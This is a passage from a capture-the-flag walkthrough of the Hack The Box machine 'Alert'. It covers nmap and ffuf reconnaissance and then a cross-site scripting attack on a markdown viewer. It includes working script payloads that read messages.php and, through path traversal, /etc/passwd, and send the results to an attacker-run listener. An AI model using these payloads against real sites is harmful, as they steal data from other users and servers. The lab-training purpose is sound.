# Alert

  

|    OS    |   Linux   |
|---------:|:----------|
|Difficulty|    Easy   |
|  Points  |     20    |
| Release  |23 Nov 2024|
|    IP    |10.10.11.44|
|   Link   |[Alert](https://app.hackthebox.com/machines/Alert)|


## Recon

Let's start by looking for open ports with an nmap scan.

```
nmap  -A -sC -sV -p - -vv -oA alert-nmap 10.10.11.44
```

For a break down of most of the options here please take a look at the Chemistry walkthrough. The only new option is 

-sV: Probe open ports to determine service/version info

and here is the report:

``` 
# Nmap 7.95 scan initiated Mon Mar  3 20:29:48 2025 as: /usr/lib/nmap/nmap -A -sC -sV -p - -vv -oA alert-nmap 10.10.11.44
Increasing send delay for 10.10.11.44 from 10 to 20 due to 11 out of 12 dropped probes since last increase.
Increasing send delay for 10.10.11.44 from 20 to 40 due to 11 out of 12 dropped probes since last increase.
Increasing send delay for 10.10.11.44 from 40 to 80 due to 11 out of 12 dropped probes since last increase.
Increasing send delay for 10.10.11.44 from 80 to 160 due to 11 out of 12 dropped probes since last increase.
Increasing send delay for 10.10.11.44 from 160 to 320 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 10.10.11.44 from 320 to 640 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 10.10.11.44 from 640 to 1000 due to 11 out of 11 dropped probes since last increase.
Nmap scan report for alert.htb (10.10.11.44)
Host is up, received reset ttl 63 (0.059s latency).
Scanned at 2025-03-03 20:29:49 CST for 8035s
Not shown: 65516 closed tcp ports (reset)
PORT      STATE    SERVICE        REASON                              VERSION
22/tcp    open     ssh            syn-ack ttl 63                      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDSrBVJEKTgtUohrzoK9i67CgzqLAxnhEsPmW8hS5CFFGYikUduAcNkKsmmgQI09Q+6pa+7YHsnxcerBnW0taI//IYB5TI/LSE3yUxyk/ROkKLXPNiNGUhC6QiCj3ZTvThyHrFD9ZTxWfZKEQTcOiPs15+HRPCZepPouRtREGwmJcvDal1ix8p/2/C8X57ekouEEpIk1wzDTG5AM2/D08gXXe0TP+KYEaZEzAKM/mQUAqNTxfjc9x5rlfPYW+50kTDwtyKta57tBkkRCnnns0YRnPNtt0AH374ZkYLcqpzxwN8iTNXaeVT/dGfF4mA1uW89hSMarmiRgRh20Y1KIaInHjv9YcvSlbWz+2sz3ev725d4IExQTvDR4sfUAdysIX/q1iNpleyRgM4cvDMjxD6lEKpvQYSWVlRoJwbUUnJqnmZXboRwzRl+V3XCUaABJrA/1K1gvJfsPcU5LX303CV6LDwvLJIcgXlEbtjhkcxz7b7CS78BEW9hPifCUDGKfUs=
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHYLF+puo27gFRX69GBeZJqCeHN3ps2BScsUhKoDV66yEPMOo/Sn588F/wqBnJxsPB3KSFH+kbYW2M6erFI3U5k=
|   256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG/QUl3gapBOWCGEHplsOKe2NlWjlrb5vTTLjg6gMuGl
80/tcp    open     http           syn-ack ttl 63                      Apache httpd 2.4.41 ((Ubuntu))
| http-title: Alert - Markdown Viewer
|_Requested resource was index.php?page=alert
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
1866/tcp  filtered swrmi          host-unreach from 10.10.14.1 ttl 64
2716/tcp  filtered inova-ip-disco no-response
12227/tcp filtered unknown        no-response
14505/tcp filtered unknown        host-unreach from 10.10.14.1 ttl 64
17195/tcp filtered unknown        host-unreach from 10.10.14.1 ttl 64
18535/tcp filtered unknown        no-response
19965/tcp filtered unknown        host-unreach from 10.10.14.1 ttl 64
22547/tcp filtered unknown        host-unreach from 10.10.14.1 ttl 64
29676/tcp filtered unknown        host-unreach from 10.10.14.1 ttl 64
31785/tcp filtered unknown        host-unreach from 10.10.14.1 ttl 64
38088/tcp filtered unknown        no-response
42008/tcp filtered unknown        host-unreach from 10.10.14.1 ttl 64
47187/tcp filtered unknown        host-unreach from 10.10.14.1 ttl 64
49271/tcp filtered unknown        host-unreach from 10.10.14.1 ttl 64
53555/tcp filtered unknown        host-unreach from 10.10.14.1 ttl 64
57453/tcp filtered unknown        host-unreach from 10.10.14.1 ttl 64
58207/tcp filtered unknown        no-response
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=3/3%OT=22%CT=1%CU=39981%PV=Y%DS=2%DC=T%G=Y%TM=67C68500
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11
OS:NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Uptime guess: 48.245 days (since Tue Jan 14 16:50:57 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT      ADDRESS
1   58.73 ms 10.10.14.1
2   58.85 ms alert.htb (10.10.11.44)

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar  3 22:43:44 2025 -- 1 IP address (1 host up) scanned in 8035.42 seconds
```
| Port | Description |Version|
|:----:|:-----------:|:-----:|
|  22  |   OpenSSH   | 8.2p1 |
|  80  |Apache httpd | 2.4.41|

Based on that output and past experiences on Hack the Box, I'm going to take a moment to add alert.htb to our /etc/hosts file.

```
sudo vim /etc/hosts
```



Let's knock out a dirwalk next. You can use whichever tool you like for this, but I will be using ffuf.

```
ffuf -u http://alert.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -recursion -ic -c -of csv -o alert.htb-ffuf.csv
```

The options used break out to:

-c: Colorize output.

-ic: Ignore wordlist comments.

-o <file_name>: Write output to file.

-of <format>: Output file format.

-recursion: Scan recursively.

-u <url>: Target URL

-w <wordlist>: Wordlist file path and (optional) keyword separated by colon.

### FFUF Report

  |      FUZZ     |              URL               |      Redirectlocation      | Position | Status Code | Content Length | Content Words | Content Lines | Content Type | Duration | ResultFile | ScraperData | Ffufhash|
  | :------------ | :----------------------------- | :------------------------- | :------- | :---------- | :------------- | :------------ | :------------ | :----------- | :------- | :--------- | :---------- | :-----: |
  |    uploads    |    http://alert.htb/uploads    |  http://alert.htb/uploads/ |       70 |         301 |            308 |            20 |            10 | text/html; charset=iso-8859-1 | 57.086374ms  |  |  | 5972b46 |
  |    messages   |   http://alert.htb/messages    | http://alert.htb/messages/ |      630 |         301 |            309 |            20 |            10 | text/html; charset=iso-8859-1 | 57.698478ms  |  |  | 5972b276 |
  |      css      |      http://alert.htb/css      |    http://alert.htb/css/   |       15 |         301 |            304 |            20 |            10 | text/html; charset=iso-8859-1 | 3.488934252s |  |  | 5972bf |
  | server-status | http://alert.htb/server-status |                            |     4227 |         403 |            274 |            20 |            10 | text/html; charset=iso-8859-1 | 56.621593ms  |  | | 5972b1083 |
  |     style     |   http://alert.htb/css/style   |                            |      163 |         200 |           3622 |           676 |           183 | text/css                      | 56.410961ms  |  |  | 3b205a3 |

Looks like we have a few hits this time:
- css/style
- messages
- server-status
- uploads

Next is sub domain enumeration.

```
ffuf -u http://alert.htb -H "Host:FUZZ.alert.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fc 301 -c -of md -o alert.htb-subdomain-ffuf.md
```

### FFUF Report

  | FUZZ | URL | Redirectlocation | Position | Status Code | Content Length | Content Words | Content Lines | Content Type | Duration | ResultFile | ScraperData | Ffufhash|
  | :- | :-- | :--------------- | :---- | :------- | :---------- | :------------- | :------------ | :--------- | :----------- | :------------ | :-------- |
  | statistics | http://alert.htb |  | 1261 | 401 | 467 | 42 | 15 | text/html; charset=iso-8859-1 | 274.901418ms |  |  | 540394ed|

The new addition here is:
- statistics.alert.htb

Now we head over to [Alert.htb](http://alert.htb)









Looks like we have a few places to attempt our initial foothold, so let's move to that.

## Initial Access or Cross Site Scripting

Let's poke at this "Markdown Viewer" first to see how it works as that is the first page we come to when visiting the address. We can start with a super simple README.md:


```
# This is a test
``` 

Which will show as the following:

# This is a test

After that is made, let's upload that file.







Well, that worked as intended. One of the tools to look at for ideas on initial access is the [OWASP Top 10](https://owasp.org/Top10/). In this case [injection](https://owasp.org/Top10/A03_2021-Injection/) seems like the correct tool. Scroll on down to [CWE-79 Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html). After that, we will be looking at example 1, as it is the first place to have the word "alert" in it. The next question, is how do we use it. Additionally, markdown viewers are capable of processing html. So let's test one of the examples from the OWASP site. We'll make a text called 'Alert.md'. It will contain that following:

```
<script>alert('XSS')</script>
```






Neat, well that tells us that we can try to inject some cross site scripting code. Although we don't want to execute it, we need someone with permissions to. Let's see if we can figure that out. We'll make a file called XSS.md. This file will contain the following:

```
<script>
fetch("http://alert.htb/messages.php")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.14.29:1337/?file_content=" + encodeURIComponent(data));
  });
</script>
```

Don't forget to change the IP address to match your needs. Before we upload this one, we'll want to make a small python web-server.

```
sudo python3 -m http.server 1337
```

Don't forget to make the port match the one in the XSS.md file.















Neat, now we need to take that over to a [url decoder](https://www.urldecoder.org/) and see what it says.





Okay, that gives us the parameter needed to read files. Let's see if we can craft the payload to exploit a Local File Inclusion (LFI) vulnerability. Let's make a file called LFI.md containing the following:

```
<script>
fetch("http://alert.htb/messages.php?file=../../../../../etc/passwd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.14.29:1337/?file_content=" + encodeURIComponent(data));
  });
</script>
```

This should grab a copy of the /etc/passwd file, again don't forget to adjust the IP address and port to match your settings...

